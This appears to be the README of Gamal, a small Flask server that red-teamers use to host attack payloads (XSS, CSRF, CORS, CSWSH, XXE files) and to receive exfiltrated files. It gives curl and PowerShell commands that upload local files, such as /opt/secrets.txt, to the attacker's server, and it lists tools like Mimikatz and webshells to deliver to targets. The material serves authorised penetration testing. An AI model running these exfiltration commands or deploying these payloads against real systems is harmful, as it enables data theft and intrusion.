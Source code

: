 # Gamal

A tiny flask app for helping red-teamers, purple teamers, and pentesters in delivery, data exfiltration, and some attacks (SSRF, XXE, XSS, Session Hijacking, Session Riding).

## Install & usage

```bash
cd /opt
git clone github.com/Fadavvi/Gamal
cd Gamal
sudo apt install python3-flask #or python3 -m pip install flask
python3 gamal.py
```  

Default configuration: IP binding: `0.0.0.0`, Port: `1337`, Log: `gamal.log`, Canary-String: `booqbooqGamal`

or

`python3 gamal.py --ip <IPADDR> --port <PORTNUM> --log <LOGPATH> --canary <YourCanaryString> [--cert <FullChain> --key <PrivateKey>]`

Then you can use your IP & Port in your payloads.

***Note:*** Add your files in `/f` folder ==>  `http://IP:PORT/f/<Your-FileName>`

## Paylods

`/f/xss.js` XSS Sample function

`/f/CORS.html` CORS sample script

`/f/CSRF.html` CSRF sample page

`/f/CSWSH.html` Cross-Site WebSocket Hijacking (CSWSH) script

`/f/meta.jpg` XSS in Meta-data

`/f/EBXXE.dtd` XXE .dtd sample file

`/f/xxe1.svg` and `/f/xxe2.svg` XXE in SVG file

## Data exfiltration

### Linux / MacOS

`curl -k -F "file=@<PathToYourFile>" https://<GamalIP>:<GamalPort>/e/upload`

### Windows

`Remove-Item alias:curl -ErrorAction SilentlyContinue; curl -k -F "file=@C:\<PathToYourFile>" https://<GamalIP>:<GamalPort>/e/upload`

### Special Parameters

If you use `user` and `host` parameters in the upload URL, they will be used in the file name. It'll help you identify the owner of the files more easily. Example:

```bash
 curl -k -F "file=/opt/secrets.txt" "https://127.0.0.1:1337/e/upload?host=$(hostname)&user=$(id -un)"
```

outputfile:

`{host}--{user}--{request.remote_addr}--{random-uuid4}-{RealFileName}`

## Gamal helper script (additional tools)

It downloads and categorizes the most common tools for delivering to the targets (Windows / Linux / macOS)

- [Mimikatz](https://github.com/gentilkiwi/mimikatz/)
- [SharpCollection](https://github.com/Flangvik/SharpCollection/) -- Read the README file before you use them in your operations.
- [Ligolo-ng](https://github.com/nicocha30/ligolo-ng/) -- agent and proxy
- [PEASS-ng](https://github.com/peass-ng/PEASS-ng/)
- [AzureHound](https://github.com/SpecterOps/AzureHound)
- [Traitor](https://github.com/liamg/traitor)
- Basic webshells (asp / aspx / jsp / php)

## Disclaimer

 This tool is intended for use only in a legal and legitimate manner. Unfortunately, there is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.


## To do

- [ ] DNS exfiltration capability
- [ ] ICMP exfiltration capability
- [ ] Adding more tools to the helper script
